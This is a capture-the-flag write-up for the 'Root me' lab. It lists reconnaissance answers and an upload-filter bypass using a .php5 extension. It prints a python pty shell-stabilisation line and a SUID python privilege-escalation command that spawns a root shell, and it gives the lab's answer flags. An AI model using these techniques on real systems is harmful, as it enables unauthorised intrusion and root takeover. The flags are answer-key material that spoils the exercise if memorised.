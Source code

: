 # Root me

grayshader | 04 April

export IP=10.10.15.137

**Reconnaissance**
1. Scan the machine, how many ports are open?
```
  2
```
2. What version of Apache is running?
```
  2.4.29
```
3. What service is running on port 22?
```
  ssh
```
4. Find directories on the web server using the GoBuster tool.
```
done
/uploads              (Status: 301) 
/css                  (Status: 301) 
/js                   (Status: 301) 
/panel                (Status: 301) 
```
5. What is the hidden directory?
```
 /panel/
```
**Getting a shell**

The application was vulnerable to file upload vulnerability and it was checking for only php extension so we uploaded  file named with php5 extension which resulted to a shell
over the system
for stable shell

```
python -c "import pty;pty.spawn('/bin/bash')"

find / -type f -name user.txt 2> /dev/null

```

1. user.txt
```
THM{y0u_g0t_a_sh3ll}
```
**Privilege escalation**
```
find / -perm -u=s -type f 2>/dev/null

-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python

```
1. Search for files with SUID permission, which file is weird?
```
	usr/bin/python
```
2. Find a form to escalate your privileges.
```
	suid bit exploitation using python
```
prievelge escalation::
```
python -c "import os;os.setuid(0);os.system('/bin/bash')"
```

3. root.txt

```
THM{pr1v1l3g3_3sc4l4t10n}
```